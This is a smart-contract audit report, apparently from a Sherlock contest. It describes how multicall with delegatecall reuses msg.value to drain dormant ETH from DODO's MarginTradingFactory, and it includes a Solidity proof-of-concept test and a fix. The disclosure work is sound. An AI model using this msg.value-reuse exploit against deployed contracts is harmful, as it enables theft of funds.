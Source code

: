 curiousapple

high

# Anyone can bypass the owner-gated `cleanETH()` and drain the dormant ETH from MarginTradingFactory

## Summary
Anyone can drain the dormant ETH from MarginTradingFactory and bypass owner-gated functions.

## Vulnerability Detail
`MarginTradingFactory` has defined **owner-gated** methods such as [cleanToken](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L217) and [cleanETH](https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L225) to rescue dormant funds from the contract.
However using combination of multicall and any payable function from factory, anyone can drain dormant ETH from the contract.

This is possible due to the nature of multicall, `msg.sender` and `msg.value` both persist in case of delegate calls, hence one can do multicall with some "X" amount of ETH as value, execute action 1 with "X" as value and then execute action 2 with "X" as value again.
For action 1 the initial eth passed to multicall is used, for action 2 the contract's funds are used.

### POC 
```solidity
MarginTradingFactoryTest.sol

    function testMulticallDrainETH() public {
        // consider that there is 5 eth dormant inside the factory contract
        address(marginTradingFactory).call{value: 5 ether}("");
        assertEq(address(marginTradingFactory).balance, 5 ether);
      
        // atleast 2 margin accounts are required
        address account1 = marginTradingFactory.createMarginTrading(2, new bytes(0), new bytes(0));
   
        // attack
        bytes memory call= abi.encodeWithSelector(marginTradingFactory.depositMarginTradingETH.selector, account1, false, uint8(2));
        
        bytes[] memory payload = new bytes[](2);
        payload[0] = call;
        payload[1] = call;
        marginTradingFactory.multicall{value: 5 ether}(payload);
       
        assertEq(address(marginTradingFactory).balance, 0 ether);
    }
```

This issue was previously spotted by `samczsun` in sushi swap contracts, resulting in rescue of 350 million USDC :D
https://samczsun.com/two-rights-might-make-a-wrong/

## Impact
Anyone can drain the dormant ETH from MarginTradingFactory

## Code Snippet
https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L74

## Tool used

Manual Review

## Recommendation
Consider removing multicall from the factory contract and use it externally, like uniswap for example.
Unnecessary delegate calls are never a good practice